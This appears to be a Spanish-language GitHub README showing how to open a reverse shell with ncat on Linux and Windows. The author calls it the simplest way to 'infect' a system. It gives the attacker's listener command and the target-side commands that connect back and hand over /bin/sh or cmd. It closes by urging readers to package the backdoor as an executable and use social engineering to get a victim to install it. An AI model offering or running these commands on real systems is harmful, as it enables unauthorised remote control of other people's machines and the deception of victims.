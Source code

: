 # REVERSE_SHELL-CON-NCAT

# Aqui te muestro la manera mas sencilla de infectar un sistema linux y windows.
# Con tan solo 2 lineas de comando !


* LISTENER (HACKER) > PARROT 

```bash
ncat -l -v 4444
```

* TARGET > UBUNTU 

```bash
ncat -v 192.168.1.200 4444 -e "/bin/sh"
```

# Result > ![backdoor](https://user-images.githubusercontent.com/97669969/154819413-fd945688-3170-46e5-995e-46fd7f491333.jpg)


# Windows 

* LISTENER (HACKER) > PARROT

```bash
ncat -l -v 4444
```

* TARGET > WINDOWS 

```bash
ncat -v 192.168.1.200 4444 -e cmd
```
RESULT >
![windows shell](https://user-images.githubusercontent.com/97669969/154819759-1af4849a-9bc7-4e86-a5e2-42a834a89e58.jpg)





# " La Navaja Suiza " ( es por algo que lo llaman de esta manera)




* La IP debe ser la tuya. 
* El puerto esta por defecto en 4444. 


# Por supuesto aqui estamos haciendo pruebas de nuestro backdoor. 
* Tenemos que usar un lenguaje y escribir nuestro codigo y crear un archivo executable tanto en linux como en windows.
* Y usar ingenieria social para hacer que esa persona instale nuestro virus, backdoor..etc.

# Ire actualizando el repo.
# TmCyber
